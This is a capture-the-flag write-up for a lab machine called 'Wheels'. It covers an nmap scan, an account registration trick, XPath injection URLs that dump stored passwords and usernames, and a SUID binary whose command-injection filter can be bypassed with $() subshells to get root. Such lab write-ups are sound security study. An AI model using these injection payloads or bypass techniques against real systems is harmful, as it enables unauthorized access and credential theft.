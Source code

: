 # Wheels

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.202
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 11:18 +08
Nmap scan report for 192.168.157.202
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We can proxy traffic through Burpsuite.&#x20;

### Web Enum -> XPath Injection

The website is for a car repair service:

<figure><img src="../../../.gitbook/assets/image (818).png" alt=""><figcaption></figcaption></figure>

There's an employee portal and a register page. When I try to register a user and access the portal, we are denied access. I tried to brute force the admin credentials, but they don't work.

At the bottom of the page, we can find an email:

<figure><img src="../../../.gitbook/assets/image (3738).png" alt=""><figcaption></figcaption></figure>

I tried to register an `administrator` user with this email, and it worked in showing us the Employee Portal.&#x20;

<figure><img src="../../../.gitbook/assets/image (3140).png" alt=""><figcaption></figcaption></figure>

If we submit a query, we are returned information in this manner:

<pre class="language-markup"><code class="lang-markup"><strong>&#x3C;tr height="40" bgcolor="#c8dbde" align="center">
</strong>	&#x3C;td>1&#x3C;/td>
	&#x3C;td width="200">&#x3C;b>bob&#x3C;/b>&#x3C;/td>

&#x3C;/tr>         

&#x3C;tr height="40" bgcolor="#c8dbde" align="center">
	&#x3C;td>2&#x3C;/td>
	&#x3C;td width="200">&#x3C;b>alice&#x3C;/b>&#x3C;/td>

&#x3C;/tr>         

&#x3C;tr height="40" bgcolor="#c8dbde" align="center">
	&#x3C;td>3&#x3C;/td>
	&#x3C;td width="200">&#x3C;b>john&#x3C;/b>&#x3C;/td>

&#x3C;/tr>
</code></pre>

I tried to append a `'` character to the query, and received an XML error:

<figure><img src="../../../.gitbook/assets/image (3199).png" alt=""><figcaption></figcaption></figure>

We can try XPath injection since it seems to load `xpath()`. I tested all forms of XPath Injection and tried to dump passwords, and eventually this payload worked:

```
http://192.168.157.202/portal.php?work=car%27)]%20|%20//password%00&action=search
```

<figure><img src="../../../.gitbook/assets/image (2779).png" alt=""><figcaption></figcaption></figure>

I also found some users when testing payloads:

```
http://192.168.157.202/portal.php?work=car%27)%20or%201=1%20or%20(%27&action=search
```

<figure><img src="../../../.gitbook/assets/image (2959).png" alt=""><figcaption></figcaption></figure>

The first password works for `bob`:

<figure><img src="../../../.gitbook/assets/image (1610).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SUID Binary -> Arbitrary Read

I searched for SUID binaries and the first result stood out:

{% code overflow="wrap" %}
```
bob@wheels:~$ find / -perm -u=s -type f 2>/dev/null
/opt/get-list

bob@wheels:~$ file /opt/get-list
/opt/get-list: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a037b8d92b88ad94e965feeeddd13c03f924f0a7, for GNU/Linux 3.2.0, not stripped

bob@wheels:~$ /opt/get-list


Which List do you want to open? [customers/employees]: employees
Opening File....

bob
alice
john
dan
alex
selene
```
{% endcode %}

I used `ltrace` to see what calls were being made.&#x20;

```
bob@wheels:~$ ltrace /opt/get-list
puts("\n"

)                                                             = 2
printf("Which List do you want to open? "...)                          = 55
fgets(Which List do you want to open? [customers/employees]: customers
"customers\n", 100, 0x7f394d6c3980)                              = 0x7ffeb9de0730
strchr("customers\n", ';')                                             = nil
strchr("customers\n", '|')                                             = nil
strchr("customers\n", '&')                                             = nil
strstr("customers\n", "customers")                                     = "customers\n"
puts("Opening File....\n"Opening File....

)                                             = 18
snprintf("/bin/cat /root/details/customers"..., 200, "/bin/cat /root/details/%s", "customers\n") = 33
open("/dev/null", 1025, 027167403201)                                  = 3
dup(2, 0x5597d7042088, 1025, 0)                                        = 4
dup2(3, 2)                                                             = 2
geteuid()                                                              = 1000
setuid(1000)                                                           = 0
system("/bin/cat /root/details/customers"... <no return ...>
```

It uses seems that our string is directly passed into a `cat` command. There's also a check for special characters before executing. This doesn't protect against subshells using `$()`, and it only checks for whether `customers` or `employees` are substrings within the string we submit.

This is easily exploitable for a `root` shell:

<figure><img src="../../../.gitbook/assets/image (2772).png" alt=""><figcaption></figcaption></figure>
